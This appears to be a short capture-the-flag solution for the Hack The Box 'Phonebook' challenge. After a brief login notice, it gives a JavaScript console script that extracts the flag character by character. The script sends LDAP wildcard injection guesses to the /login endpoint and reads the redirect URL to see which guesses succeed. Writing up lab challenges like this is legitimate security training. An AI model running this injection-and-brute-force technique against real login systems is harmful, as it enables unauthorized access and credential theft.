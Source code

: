 # phonebook.htb
New (9.8.2020): You can now login using the workstation username and password! - Reese

```js
// Run it in the Chrome DevTools Console
let flag="HTB",dict ="}{ ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789!~.?@#$%^&_-+=?<>😾".split('')
while(1) {
    for (var s of dict) {
        const {url:u} = await fetch('/login',{body:new URLSearchParams({username:'*',password:flag+s+'*'}),method:"POST"})
        if (console.log(flag+s)||!u.includes("failed")&&(flag += s)) break
    }
    if (['}','😾'].includes(s)) break
}
```
